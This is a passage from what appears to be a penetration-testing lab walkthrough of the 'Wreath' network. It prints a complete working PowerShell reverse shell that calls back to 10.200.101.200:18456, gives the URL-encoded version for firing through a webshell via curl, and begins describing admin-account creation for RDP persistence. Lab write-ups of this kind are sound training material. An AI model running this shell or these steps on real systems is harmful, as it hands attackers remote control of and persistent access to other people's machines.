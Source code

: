 We use a Powershell reverse shell on our target - this creates a new TCP connection to the `18456` port on the public facing webserver, which is the one that `socat` is listening on, from the gitserver.

```bash
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.101.200',18456);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Before we can send this in our `CURL` command, though, we'll need to URL Encode it.

```bash
powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.101.200%27%2C18456%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

Finally, we send our exploit as a `curl` request to the webshell and end up with a connection back on our attacking machine with a full reverse shell.

![](images/wreath/gitstack_exploit_3.png)

![](images/wreath/gitstack_shell.png)

### Adding a User and RDP Access

Now that we have a stable reverse shell, we can grant ourselves even better access by giving ourself RDP access. 

We add a new user account to the system and add it to the Administrators and the "Remote Management Users" groups.
